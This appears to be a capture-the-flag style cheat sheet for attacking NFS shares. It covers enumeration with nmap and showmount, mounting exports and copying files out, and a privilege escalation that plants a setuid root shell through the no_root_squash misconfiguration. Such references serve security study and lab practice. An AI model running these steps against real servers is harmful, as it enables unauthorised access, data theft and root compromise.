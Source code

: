 ### 🔍 **1. NFS Enumeration**

#### Check NFS Ports (usually 2049/tcp)

```bash
nmap -p 111,2049 -sV -sC 10.10.X.X
```

####  List NFS Exports

```bash
showmount -e 10.10.X.X
```

> Output example:

```
Export list for 10.10.X.X:
/share        *
/confidential 10.10.0.0/24
```

---

###  **2. Mounting NFS Share**

####  Create a mount directory

```bash
mkdir -p ~/nfs_mount
```

####  Mount the remote share

```bash
sudo mount -t nfs 10.10.X.X:/share ~/nfs_mount
```

####  NFSv4 Mount (if v3 fails)

```bash
sudo mount -t nfs4 10.10.X.X:/ ~/nfs_mount
# Then access subdirs like: ~/nfs_mount/confidential
```

####  Unmount when done

```bash
sudo umount ~/nfs_mount
```

---

###  **3. Useful Enumeration Commands After Mount**

```bash
ls -la ~/nfs_mount
find ~/nfs_mount -type f -name "*.txt"
find ~/nfs_mount -perm -4000 2>/dev/null   # Look for SUID binaries
strings ~/nfs_mount/filename               # Inspect files
```

---

###  **4. Downloading Files from NFS**

Once mounted, just copy files as if local:

```bash
cp ~/nfs_mount/flag.txt .
cp -r ~/nfs_mount/secrets/ .
```

---

###  **5. Exploitation Tricks**

####  Writable Share? Create file to test:

```bash
touch ~/nfs_mount/testfile.txt
```

If it works, the share is **writable** — big opportunity for escalation!

#### 🐚 Privilege Escalation (Writable + Root Squash Disabled)

1. On your machine (must be **same UID/GID** as target):

```bash
sudo chown 0:0 ./shell
chmod +s ./shell
cp ./shell ~/nfs_mount/
```

2. On the target machine, run the setuid shell for root shell:

```bash
./shell
```

✅ Exploits `no_root_squash` misconfig.

---

###  **6. Clean Up**

```bash
sudo umount ~/nfs_mount
rm -rf ~/nfs_mount
```

---

## 🧠 Quick Notes:

|Term|Meaning|
|---|---|
|`no_root_squash`|Dangerous: lets NFS clients act as root on server|
|`root_squash`|Default: remaps root to nobody user|
|`/etc/exports`|NFS export configuration on server|
|Port `2049`|NFS main service|
|Port `111`|Portmapper (RPC service)|

---
